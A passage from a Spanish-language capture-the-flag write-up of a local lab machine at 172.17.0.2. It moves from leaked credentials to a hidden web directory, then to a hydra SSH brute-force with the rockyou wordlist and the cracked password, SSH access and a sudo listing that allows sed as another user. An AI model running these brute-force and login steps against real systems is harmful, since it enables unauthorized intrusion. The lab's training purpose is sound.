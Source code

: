 Tenemos un potencial usuario
### Credenciales Encontradas
- Usuario: `[ info ]`
- Contraseña: `[ estoesunsecreto ]`

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Ahora que tenemos un usuario para este servicio **SMB** lo usaremos para conectarnos y obtener los recursos compartidos para este usuario
Al intentar conectarnos falla la conexion:
```bash
rpcclient -U info -P estoesunsecreto 172.17.0.2
```

Asi que probaremos si es un posible directorio:
```bash
http://172.17.0.2/estoesunsecreto/
```

Ahora vemos que si existe como recurso:
```bash
http://172.17.0.2/estoesunsecreto/mensaje_para_lucas.txt
```

En el recuros explica que debe cambiar su contrasena porque es debil, Lo que aremos es intentar un ataque de fuerza bruta con **hydra** para ese usuario:
### Ejecucion del Ataque
```bash
# Comandos para explotación
hydra -l lucas -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

### Intrusion
Ahora que tenemos las credenciales de este usuario:
```bash
[22][ssh] host: 172.17.0.2   login: lucas   password: chocolate
```

Nos conectamos por **ssh**
```bash
# Reverse shell o acceso inicial
ssh-keygen -R 172.17.0.2 && ssh lucas@172.17.0.2 # ( chocolate )
```

---

## Escalada de Privilegios
### Enumeracion del Sistema
```bash
# Comandos clave ejecutados
sudo -l

User lucas may run the following commands on 70405872b45c:
    (andy) NOPASSWD: /bin/sed # Tenemos este binario para migrar al usuario andy
```
